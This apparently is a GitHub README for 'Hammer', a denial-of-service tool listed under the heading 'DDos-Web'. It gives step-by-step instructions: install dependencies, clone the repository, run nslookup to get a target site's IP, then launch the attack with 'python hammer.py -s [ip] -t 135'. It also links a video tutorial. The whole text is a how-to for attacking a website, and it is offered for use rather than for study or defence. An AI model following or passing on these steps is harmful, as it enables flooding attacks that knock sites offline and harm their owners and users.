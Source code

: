 $ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/Pavithran-R/Hammer/

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Hammer<br>
$ python hammer.py -s [ip Address] -t 135<br>
example:<br>
$ python hammer.py -s 123.45.67.89 -t 135<br>

Video Tutorial:
How to use Hammer [`Watch it`](http://www.youtube.com/watch?v=HVbRUhX2EPo)
# DDos-Web
